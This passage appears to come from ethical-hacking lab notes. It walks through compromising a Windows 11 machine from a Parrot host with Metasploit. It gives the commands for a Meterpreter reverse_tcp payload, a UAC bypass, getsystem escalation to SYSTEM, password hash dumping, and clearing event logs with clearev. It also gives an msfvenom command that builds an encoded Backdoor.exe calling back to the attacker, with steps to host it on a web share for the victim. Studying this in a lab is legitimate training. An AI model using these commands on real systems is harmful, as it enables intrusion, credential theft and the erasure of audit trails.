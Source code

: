     type: set payload windows/meterpreter/reverse_tcp 

    The Payload options section displays the requirement for the payload. 

Observe that: 

    The LHOST option is required, but Current Setting is empty (here, you need to set the IP Address of the local host, (here, the Parrot Security machine) 

     The EXITFUNC option is required, but Current Setting is already set to process, so ignore this option 

    The LPORT option is required, but Current Setting is already set to port number 4444, so ignore this option 

    To set the LHOST option, type set LHOST <host_ip> and press Enter. 

    type: set TARGET 0 

    Type : exploit 

    As you can see, the BypassUAC exploit has successfully bypassed the UAC setting on the Windows 11 machine; you have now successfully completed a Meterpreter session. 

    Type meterpreter : getuid 

    type: getsystem -t 1 

    Type : getuid ( The Meterpreter session is now running with system privileges (NT AUTHORITY\SYSTEM)) 

    Type: run post/windows/gather/smart_hashdump ( To get passwords) 

    You can now remotely execute commands such as clearev to clear the event logs that require administrative or root privileges. To do so, type clearev and press Enter. 

 

 

 

TASK 2: HACK A WINDOWS MACHINE USING METASPLOIT AND PERFORM POST-EXPLOITATION USING METERPRETER 

 

    Windows 11 : Admin, Pa$$w0rd 

    Create a text file : Secret.txt in C:\Users\Admin\Downloads. = “My credit card account number is 123456789.”. 

    Parrot : In cd (root) location : msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -e x86/shikata_ga_nai -b "\x00" LHOST=<host_ip> -f exe > /home/attacker/Desktop/Backdoor.exe and press Enter 

    In the previous lab, we created a directory or shared folder (share) at the location (/var/www/html) and with the required access permission. We will use the same directory or shared folder (share) to share Backdoor.exe with the victim machine.  

Note: If you want to create a new directory to share the Backdoor.exe file with the target machine and provide the permissions, use the below commands:  

▪ Type mkdir /var/www/html/share and press Enter to create a shared folder  

▪ Type chmod -R 755 /var/www/html/share and press Enter  
